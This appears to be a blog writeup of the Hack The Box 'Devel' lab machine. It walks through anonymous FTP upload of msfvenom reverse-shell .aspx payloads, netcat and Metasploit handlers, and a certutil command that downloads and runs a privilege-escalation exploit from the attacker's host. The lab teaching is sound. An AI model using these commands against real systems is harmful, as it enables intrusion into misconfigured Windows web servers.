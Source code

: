 ```yaml
---
title: Devel Writeup - Hack The Box
published: 2023-08-20
description: 'A walkthrough of the Devel machine on Hack The Box, covering basic enumeration and exploitation using public exploits.'
image: './cover.jpg'
tags: [HackTheBox, Exploitation, Recon ]
category: 'HackTheBox'
draft: false
---
```


# TryHackMe Devel Walkthrough – Manual and Metasploit Methods

**Devel** is a beginner-friendly vulnerable machine that highlights risks caused by default configurations. It can be exploited using publicly available tools and basic enumeration.

---

## Nmap Scan

We begin with a basic `nmap` scan to discover open ports and services:

```bash
nmap -sC -sV -p- MACHINE_IP
```

![command](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WBgz1osSej3wtX3A75LK7g.png)

From the results, we find two key open ports:

* **21 (FTP)** – with anonymous login enabled
* **80 (HTTP)** – hosting a web server

![nmap\_scan](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*mSVM4jP8kZWk0Az3tGfFmw.png)

---

## Step 1: Confirming FTP-HTTP Link

Visit the website on port 80 – a welcome image (`welcome.png`) is displayed.

![saving image](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*DFwiOUqfrPRR82WAAjGxpg.png)

We notice that this file also appears in the FTP directory. This suggests the web server pulls files directly from the FTP root.

![image\_name](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*fNod9gS3wlmIU4i23Fwudw.png)

To confirm, upload a file (`test.txt`) using anonymous FTP, then access it via the browser:

```bash
ftp MACHINE_IP
put test.txt
```

![sending \_ftp](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Ak_UnrNV39IWApGqO18HWA.png)
![Traversing](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*CVvJNBX8QYedfqGfb8iARQ.png)

---

## Step 2: Web Tech Detection

Using Wappalyzer or similar tools, we identify the site runs **Microsoft ASP.NET**.

![wappalyzer](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*nj2optk8WvyWhY_zHRmOSw.png)

After quick research, we confirm `.aspx` is the extension in use:

![google\_search](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*yo2Nc0v8X3mHPKWIr7Oe0Q.png)

---

## Method 1: Manual Exploitation (Netcat)

Generate a reverse shell payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > rev.aspx
```

![msfvenom\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Kuy1ctiK99Yl9FOucrv7TA.png)

Upload the payload via FTP:

```bash
ftp MACHINE_IP
put rev.aspx
```

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*wg2etjBDW8lN_QPOPXa8OA.png)

Start a listener:

```bash
nc -lvnp 4444
```

![netcat\_listening](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*OGK6JEvvSSgCQzGHmKkzTA.png)

Execute the payload via browser:

```
http://MACHINE_IP/rev.aspx
```

![rev.aspx](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WqH8Ikjr2OUCFPgBHTWwtw.png)

We receive a shell as a low-privileged user:

![low\_level\_user](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*tsbsIdTKnRnHrEXOSenz5g.png)

---

## Privilege Escalation (Manual)

Run `systeminfo` to gather system details:

```bash
systeminfo
```

![systeminfo](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*a70dgV4wG9lAlfxEtnyKXw.png)

Search for known exploits using OS version info:

[Search: Windows 7 Enterprise build 7600 x86 exploit](https://www.google.com/search?q=Windows+7+Enterperise+build+7600+x86+exploit)

![exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*GXdcIu6pBwxCiM8_q6_4-g.png)

Download with `searchsploit`, serve via Python:

```bash
searchsploit -m exploit/windows/local/XXXXXXXX
python3 -m http.server 80
```

![searchsploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*R2VeWKFOw6wW1qpWEwMxQQ.png)
![Python\_sever](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*lyeMCUukG6sm9T49Km9NCw.png)

Download and run from victim using `certutil`:

```bash
certutil -urlcache -f http://YOUR_IP/exploit.exe exploit.exe
exploit.exe
```

![downlaod\_exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*1x1UCnmP8oXLteJT1nP8eg.png)

---

### Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Method 2: Automated Exploitation (Metasploit)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > shell.aspx
```

![payload\_creation](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_xMRB4RpfzZmbhhA_CKn2g.png)

Upload it to the server via FTP:

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Jlw4_4nI_Z-YprDTcuNSwA.png)

Set up Metasploit multi/handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*D76KwkvYc5tepQxTiFWxow.png)

Trigger the shell:

```
http://MACHINE_IP/shell.aspx
```

![reverse\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*thbnALazl5syQKfBGnU6xA.png)

Get Meterpreter access:

![get\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_dPxU7-hRRoAggKQj9UbbA.png)

Run post-exploitation module:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![exploit\_suggestor](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*USWEXv66U-FsdfdmqAf4GQ.png)

Exploit with `ms10_015_kitrap0d`:

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*V7N0xKby7SDnL8yojzYM6w.png)

---

### Final Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Conclusion

Devel demonstrates the risk of misconfigured services (FTP, ASP.NET) and how attackers can exploit them with simple privilege escalation techniques. Both manual and Metasploit methods highlight the same vulnerabilities but with different workflows.
